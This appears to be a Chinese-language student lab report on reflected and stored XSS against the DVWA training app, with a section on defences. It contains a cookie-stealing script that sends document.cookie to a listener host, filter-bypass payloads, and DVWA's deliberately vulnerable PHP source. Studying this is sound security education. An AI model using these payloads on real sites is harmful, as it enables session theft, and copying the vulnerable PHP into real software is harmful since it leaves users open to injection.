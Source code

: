 # 实验一

## XSS-跨站脚本执行漏洞实验

## 实验原理

XSS又称CSS，全称Cross SiteScript，跨站脚本攻击，是Web程序中常见的漏洞，是被动式且用于客户端的攻击方式。其原理是攻击者向有XSS漏洞的网站中输入(传入)恶意的HTML代码，当其它用户浏览该网站时，这段HTML代码会自动执行，从而达到攻击的目的。如盗取用户Cookie、破坏页面结构、重定向到其它网站等。

## 实验环境

* kali虚拟机
* apache服务器
* DVWA
* php+html+java

### 实验过程

### 配置虚拟机

![image-20200112204833493](实验报告一.assets/image-20200112204833493.png)

### 反射型xss攻击

> 反射型XSS，也叫非持久型XSS，是指发生请求时，XSS代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含XSS代码，最后浏览器解析并执行。从概念上可以看出，反射型XSS代码是首先出现在URL中的，然后需要服务端解析，最后需要浏览器解析之后XSS代码才能够攻击。

---

查看源码，可以看到，在安全等级为低时，源码中没有对用户提交的数据做任何处理，只是简单判断如果提交的数据是否存在，在则就输出Hello+提交的内容

![image-20200112205137997](实验报告一.assets/image-20200112205137997.png)

测试代码：

```
<script> alert('xss')</script> //验证弹窗
<script>location='https://www.baidu.com'</script>  //重定向到百度
```

测试结果：

![image-20200112205312387](实验报告一.assets/image-20200112205312387.png)

![image-20200112205342226](实验报告一.assets/image-20200112205342226.png)

#### 获取cookie实验

首先测试构造获取cookie的JavaScript代码：`<script>alert(document.cookie)</script>`

![image-20200112205507988](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20200112205507988.png)

在本机/var/www/html中制作js脚本

```
var img = new Image();
img.src = "http://10.0.2.6:88/cookies.php?cookie="+document.cookie;
```

![image-20200112205622471](实验报告一.assets/image-20200112205622471.png)

在kali中使用`nc -vnlp 88`进行监听，在DVWA平台进行测试，获取用户cookie

```
<script src='http://10.0.2.6/xxsec.js'></script>
```

![image-20200112205734080](实验报告一.assets/image-20200112205734080.png)

### 存储型xss攻击

> 存储型XSS，也叫持久型XSS，主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。），最典型的就是留言板XSS。用户提交了一条包含XSS代码的留言到数据库。当目标用户查询留言时，留言的内容会从服务器解析之后加载出来。浏览器发现有XSS代码，当做正常的HTML和JS解析执行。

------

测试代码：

```
<a href=http://10.0.2.6>登录</a>；//点击 ' 登录 '，直接跳转到http://10.0.2.6页面（自己搭建的服务器界面）
```

![image-20200112210139737](实验报告一.assets/image-20200112210139737.png)

#### 获取cookie实验

在本机/var/www/html中制作js脚本

```
var img = new Image();
img.src = "http://10.0.2.6:88/cookies.php?cookie="+document.cookie;
```

![image-20200112210255619](实验报告一.assets/image-20200112210255619.png)

在kali中使用`nc -vnlp 88`进行监听，在DVWA平台进行测试此行代码，获取用户cookie

```
<script src='http://10.0.2.6/xxsec.js'></script>
```

![image-20200112210358234](实验报告一.assets/image-20200112210358234.png)

![image-20200112210444063](实验报告一.assets/image-20200112210444063.png)

## 防护手段

### 反射型xss攻击防护

* 在安全等级为低时，源码中没有对用户提交的数据做任何处理，只是简单判断如果提交的数据是否存在且不为空，就输出Hello+提交的内容,极易被攻击

```js
low Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

* 使用str_replace函数将输入中的<script>替换成空，把script脚本当做字符串来处理，但仍可以将将<script>可以写成<Script>，大小写混淆绕过

例如

```js
<Script>alert(‘xss’)</script>
```

或者嵌入绕过，可以将script嵌入到<script>中

`<scr<script>ipt>`

```js
<scr<script>ipt>alert('XSS1')</script> 
```

```js
Medium Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

* 代码使用preg_replace() 函数用于正则表达式的搜索和替换，将script前后相关的内容都替换为空，使得双写绕过、大小写混淆绕过不再有效，即只要遇到与scipt有关的字符都进行替换为空，输入不在含有script；（正则表达式中i表示不区分大小写）

仅预防script代码插入，可以通过img、body等标签事件或者iframe等标签的src注入恶意的js代码

```js
<body οnlοad=alert('XSS2')>
<a href=http://10.0.2.6>登录</a>
```

```js
High Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

* 当安全级别为impossible，使用htmlspecialchars() 函数把预定义的字符转换为 HTML 实体，防止浏览器将其作为HTML元素（恶意代码）；不能实现反射型XSS攻击；

```js
Impossible Reflected XSS Source
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

### 存储型xss攻击防护

* 对输入的name参数和message参数并没有做XSS方面的过滤与检查，并且数据存储在数据库中，所以存在明显的存储型XSS漏洞；

```js
Low Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 由于对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码；对于name参数，使用str_replace函数将输入中的<script>删除，把script脚本当做字符串来处理，仍然存在存储型的XSS。

```js
<Script>alert(‘XSS’)</script>    #可以在name中将<script>可以写成<Script>，大小写混淆绕过
```

```js
Medium Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码；对于name参数，High级别的代码使用preg_replace() 函数用于正则表达式的搜索和替换，将script前后相关的内容都替换为空，使得双写绕过、大小写混淆绕过不再有效；（正则表达式中i表示不区分大小写）虽然在name参数中无法使用<script>标签注入XSS代码，但是可以通过img、body等标签事件或者iframe等标签的src注入恶意的js代码。

  ```html
  <body οnlοad=alert('XSS2')>
  <a href=http://10.0.2.6>登录</a>
  ```

```js

High Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 当安全级别为impossible时，对name、message参数均使用了htmlspecialchars函数进行编码，因此无法再通过name、message参数注入XSS代码，不能实现存储型XSS攻击。

```js
Impossible Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = stripslashes( $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $name = htmlspecialchars( $name );

    // Update database
    $data = $db->prepare( 'INSERT INTO guestbook ( comment, name ) VALUES ( :message, :name );' );
    $data->bindParam( ':message', $message, PDO::PARAM_STR );
    $data->bindParam( ':name', $name, PDO::PARAM_STR );
    $data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

